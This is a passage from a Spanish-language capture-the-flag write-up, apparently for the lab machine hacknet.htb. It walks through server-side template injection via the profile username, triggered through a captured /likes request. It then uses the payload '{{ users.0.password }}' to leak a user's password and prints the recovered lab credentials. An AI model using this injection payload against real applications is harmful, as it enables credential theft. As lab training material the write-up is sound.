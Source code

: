 Vamos a irnos a nuestro perfil, editarlo y poner algo asi:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 113520.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 113531.png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos a `Explore`, le damos `like` a una publicacion, se incrementara dicho numero, pues con ese numero sabiendo que existe y que esta incrementado, vamos a utilizar el `likes` de la peticion con `BurpSuite` para enviarla donde le hemos dado `like`.

```
GET /likes/10 HTTP/1.1
Host: hacknet.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hacknet.htb/explore
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Cookie: csrftoken=Gb5sfC4RCUOUNPun3YNOpIcHPmVTZBzY; sessionid=0m72xro74306lt0asdeod6jhe6m93nyk
Priority: u=0


```

En la respuesta veremos...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 113421.png" alt=""><figcaption></figcaption></figure>

Veremos que esta funcionando, esta renderizando el `email` de un usuario, por lo que la inyeccion esta funcionando, ahora vamos a probar con otra cosa como este `payload`.

```
{{ users.0.password }}
```

Quedando nuestro nombre de usuario como ese anterior `payload`, ahora si volvemos a enviar la peticion de `likes` para que lo renderice, veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 113950.png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado tambien, por lo que tendremos estas credenciales:

```
email: hexhunter@ciphermail.com
pass: H3xHunt3r!
```

Si las probamos en el `login`...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 114054.png" alt=""><figcaption></figcaption></figure>

Vemos que seremos dicho usuario, pero no habra nada interesante, por lo que vamos a realizar un `barrido` de `IDs` para ver que credenciales sacamos gracias a esta vulnerabilidad.
